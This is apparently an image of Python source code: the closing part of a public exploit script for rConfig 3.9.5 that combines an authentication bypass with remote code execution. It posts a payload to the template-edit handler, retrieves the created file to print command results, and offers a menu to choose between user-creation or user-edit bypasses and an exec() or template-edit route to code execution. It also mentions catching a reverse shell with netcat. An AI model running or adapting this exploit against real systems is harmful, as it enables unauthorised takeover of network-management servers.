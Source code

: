                 print("(+) Log in as admin completed")

                rce=s.post(url+'lib/ajaxHandlers/ajaxEditTemplate.php', verify=False, data=payload_rce, headers=headers_rce)

                if "success" in rce.text:

                    print("(+) File created")

                    rce_req = s.get(url+'test.php.yml', verify=False)

                    print("(+) Command results: ")

                    print(rce_req.text)

                else:

                    print("(-) Error when executing payload, please debug the exploit")

     

    def main():

        print("Remote Code Execution + Auth bypass rConfig 3.9.5 by Daniel Monzón")

        print("In the last stage if your payload is a reverse shell, the exploit may not launch the success message, but check your netcat ;)")

        print("Note: preferred method for auth bypass is 1, because it is less 'invasive'")

        print("Note2: preferred method for RCE is 2, as it does not need you to know if, for example, netcat has been installed in the target machine")

        print('''Choose method for authentication bypass:

            1) User creation

            2) User enumeration + User edit ''')

        auth_bypass=str(input("Method>"))

        if auth_bypass == "1":

           createuser()

        elif auth_bypass == "2":

           user_enum_update()

        print('''Choose method for RCE:

            1) Unsafe call to exec()

            2) Template edit ''')

        rce_method=str(input("Method>"))

        if rce_method == "1":

           exploit()

        elif rce_method == "2":

           template()

    main()
